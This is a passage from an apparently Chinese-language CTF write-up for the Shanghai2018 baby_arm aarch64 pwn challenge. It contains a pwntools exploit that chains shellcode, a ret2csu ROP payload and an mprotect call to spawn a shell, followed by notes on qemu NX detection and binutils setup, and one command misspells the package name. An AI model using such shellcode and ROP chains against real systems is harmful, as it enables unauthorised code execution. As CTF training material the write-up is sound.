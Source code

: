 ```python
if __name__ == "__main__":
    elf = ELF("./pwn", checksec = False)
    padding = asm('mov x0, x0')

    sc = asm(shellcraft.execve("/bin/sh"))
    #  print disasm(padding * 0x10 + sc)
    io.sendafter("Name:", padding * 0x10 + sc)
    sleep(0.01)

    #  io.send(cyclic(length = 500, n = 8))
    #  rop = flat()
    payload = flat(cyclic(72), csu_rop(elf.got['read'], 0, elf.got['__gmon_start__'], 8))
    payload += flat(0x400824)
    io.send(payload)
    sleep(0.01)
    io.send(flat(elf.plt['mprotect']))
    sleep(0.01)

    raw_input("DEBUG: ")
    io.sendafter("Name:", padding * 0x10 + sc)
    sleep(0.01)

    payload = flat(cyclic(72), csu_rop(elf.got['__gmon_start__'], 0x411000, 0x1000, 7))
    payload += flat(0x411068)
    sleep(0.01)
    io.send(payload)

    io.interactive()
```

### notice
同时需要注意的是，`checksec` 检测的结果是开了 nx 保护，但这样检测的结果不一定准确，因为程序的 nx 保护也可以通过 qemu 启动时的参数 `-nx` 来决定（比如这道题目就可以通过远程失败时的报错发现程序开了 nx 保护），老版的 qemu 可能没有这个参数。
```bash
Desktop ./qemu-aarch64 --version
qemu-aarch64 version 2.7.0, Copyright (c) 2003-2016 Fabrice Bellard and the QEMU Project developers
Desktop ./qemu-aarch64 -h| grep nx
-nx           QEMU_NX           enable NX implementation
```

如果有如下的报错，说明没有 aarch64 的汇编器
```bash
[ERROR] Could not find 'as' installed for ContextType(arch = 'aarch64', binary = ELF('/home/m4x/Projects/ctf-challenges/pwn/arm/Shanghai2018_baby_arm/pwn'), bits = 64, endian = 'little', log_level = 10)
    Try installing binutils for this architecture:
    https://docs.pwntools.com/en/stable/install/binutils.html
```
可以参考官方文档的解决方案
```bash
Shanghai2018_baby_arm [master●] apt search binutils| grep aarch64
p   binutils-aarch64-linux-gnu                                         - GNU binary utilities, for aarch64-linux-gnu target
p   binutils-aarch64-linux-gnu:i386                                    - GNU binary utilities, for aarch64-linux-gnu target
p   binutils-aarch64-linux-gnu-dbg                                     - GNU binary utilities, for aarch64-linux-gnu target (debug symbols)
p   binutils-aarch64-linux-gnu-dbg:i386                                - GNU binary utilities, for aarch64-linux-gnu target (debug symbols)
Shanghai2018_baby_arm [master●] sudo apt install bintuils-aarch64-linux-gnu
```
> aarch64 的文件在装 libc 时是 `arm64`，在装 `binutils` 时是 `aarch64`
